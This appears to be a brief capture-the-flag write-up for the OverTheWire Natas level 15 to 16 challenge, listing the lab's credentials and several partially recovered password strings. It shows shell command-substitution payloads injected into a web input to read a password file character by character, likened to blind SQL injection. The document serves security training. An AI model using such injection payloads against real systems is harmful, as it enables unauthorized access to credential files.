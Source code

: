# Level 15 → Level 16

## Details
Username: `natas16`<br />
Password: `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`<br />
URL:      http://natas16.natas.labs.overthewire.org

## Solution

# exstract spesific letter from password
`$(cut -c 1-1 /etc/natas_webpass/natas17)`


# convert numbers to chars
`$(printf \\$(printf %03o $((97+$(cut -c 8-8 /etc/natas_webpass/natas17)))))`

https://stackoverflow.com/questions/12855610/shell-script-is-there-any-way-converting-number-to-char


and then extract just one letter!
and do it like "blind sql injection"

## Password for the next level:
```

```
`"xkeuche_sbnkbvh_ru_ksib_uulmi_sd"`

`"xkeuche_sbnkbvh_ru_ksib_uulmi7sd"`

`"xkeuche_sbnkbvh_ru_ksib9uulmi7sd"`

`"xkeuche_sbnkbvh_ru7ksib9uulmi7sd"`

`"xkeuche_sbnkbvh1ru7ksib9uulmi7sd"`

`"xkeuche0sbnkbvh1ru7ksib9uulmi7sd"`